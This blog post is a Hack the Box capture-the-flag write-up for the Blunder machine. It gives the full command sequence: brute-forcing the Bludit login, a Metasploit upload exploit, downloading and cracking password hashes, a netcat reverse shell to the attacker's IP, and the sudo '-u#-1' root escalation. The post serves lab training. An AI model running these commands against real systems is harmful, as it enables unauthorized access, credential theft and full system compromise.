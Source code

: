 +++
author = "Nick"
categories = ["CTF", "hack the box", "Linux", "easy", "bludit", "blunder", "gobuster", "directory traversal", "metasploit", "sudo", "reverse shell", "su"]
date = 2020-10-17T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/10/infocard.png"
slug = "hack-the-box-blunder"
tags = ["CTF", "hack the box", "Linux", "easy", "bludit", "blunder", "gobuster", "directory traversal", "metasploit", "sudo", "reverse shell", "su"]
title = "Hack the Box - Blunder"
url = "/hack-the-box-blunder"
 

+++


Welcome back everyone! Today we are doing the machine Blunder from Hack the Box. This machine is listed as an Easy Linux machine. Let's jump in!

As always, we kick it off with our standard `nmap` command:
`nmap -sC -sV -oA allscan 10.10.10.191`

```
Nmap scan report for 10.10.10.191
Host is up (0.044s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

As we see, it's a pretty basic scope. We'll add `blunder.htb` to our hosts file and take a look and see what is being hosted.

We are greeted with a pretty basic site. So as always, we'll start enumerating it with `gobuster`.

Command:
`gobuster dir -u http://blunder.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt`

Right away we see `/admin/`, `todo.txt` and `robots.txt`. First we'll take a look at the `todo.txt`. Nothing but some notes and a person to inform. Then we'll head over to `/admin` and see what might be there.

![](/images/2020/10/image.png)

We get a login page. Some googling shows this is probably a [flat file CMS](https://www.bludit.com/). With this knowledge we can do some research for exploits and vulnerablilies. We find some basic Directory Traversals but they need to be authenticated. More research leads us to a [blog post](https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb) about brute force detection bypass. Luckily for us, there is a link to the [github](https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/tree/master) for the script as well.

So we'll clone the repo.

Command:
`git clone https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/tree/master`

Now we can change the permissions on the file.

Command:
`chmod +x bruteforce.py`

Now all we have to do is feed it  a `ip`, `username` and a `wordlist`. Now we have a name from our `todo.txt`, Fergus. We have an `ip` and a whole bunch of wordlists. We are good to go!

Command:
`python3 bruteforce.py 10.10.10.191 fergus /usr/share/wordlists/rockyou.txt`

We let it run but don't find anything. We run a few more wordlists and still no dice. Hmmm, well, we have a blog full of text, let's rip it all into a wordlist using `cewl`.

Command:
`cewl -d 1 -m 4 wordlist.lst --with-numbers http://10.10.10.191`

Now with our custom password list, we'll refeed it through our python app and see what we get.

![](/images/2020/10/blunder_wordlist.gif)

We've got one! A password of `RolandDeschain`. Let's use these creds to log in. Now that we're in, we can look around and get an idea of what's possible. We know we can leverage some previously found Directory Traversals since we have credentials.

Command:
`Searchsploit bludit`

![](/images/2020/10/image-1.png)

We'll start with the `Metasploit` module. First we'll start up `Metasploit` and find our exploit.

Command:
`msfdb run`

Once inside the `Metasploit` framework, we'll `search` for our exploit.

Command:
`search bludit`

![](/images/2020/10/image-2.png)

Now we'll `use` that exploit.

Command:
`use 0`
or
`use exploit/linux/http/bludit_upload_images_exec`

Next, we set our `rhost`, `bludituser` and `bluditpass` values.

Command:
`msf5> set rhost 10.10.10.191`
`msf5> set bludituser fergus`
`msf5> set bluditpass RolandDeschain`

Then we'll `run` our exploit.

![](/images/2020/10/image-3.png)

We now have a `Meterpreter` session! Doing some internal enumation shows two version of bludit installed.

![](/images/2020/10/image-4.png)

Poking around more shows a `databases` folder which has a `users.php` file. We'll download that file.

Command:
`meterpreter> download users.php`

When we look at the file contents, we see a password file hash for Admin and Fergus.

![](/images/2020/10/image-5.png)

We'll also download the password from the `bludit-3.10.0a` directory as well. A quick peek on [TunnelsUp](https://www.tunnelsup.com/hash-analyzer/) shows us these are unsalted SHA1 hashes. [Crackstation](https://crackstation.net/) has one of these passwords on file.

![](/images/2020/10/image-6.png)

This is the password for the user Hugo. Who is also a user on this machine. So at this point, we'll need to create a shell back to our system, upgrade it and switch user to `Hugo`.

We'll enter a shell in `Meterpreter` by issueing the `shell` command. Next we'll start our `netcat` listener.

Command:
`nc -lvnp 6969`

Next we'll forward out our shell. In this box we don't have the `-e` option in `netcat`. We can use [this solution](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99). Also, you could upload a webshell via `meterpreter` as well.

Command:
`mknod /tmp/backpipe p /bin/sh 0</tmp/backpipe | nc 10.10.14.202 6969 1>/tmp/backpipe`

And we catch a shell.

![](/images/2020/10/image-7.png)

Now we can upgrade out shell.

Command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Now we can `su` to hugo and get our `users.txt` flag!

![](/images/2020/10/image-8.png)

Now that we have a foothold as a user, we can enumerate. This box has been quite different than boxes in the past. Normally, we'd do basic enumeration by hand by poking around, running some basic commands and then use `linenum` or another enum script. This time, every tidbit we need has been in our initial commands.

We run `sudo -l` and see the `!root` flag.

![](/images/2020/10/image-9.png)

Between this and the version of `sudo` running, we can escalate to root. Here's a [quick snip](https://www.exploit-db.com/exploits/47502) on how the exploit works. All we have to do is execute the following command:

`sudo -u#-1 /bin/bash`

![](/images/2020/10/blunder_root.gif)

There we have it, box complete. A pretty standard entry level CTF box. I would highly recommend this box to new users.

If you enjoyed this write-up and / or learned something along the way, shoot some me some respect on [Hack The Box](https://www.hackthebox.eu/home/users/profile/95635).





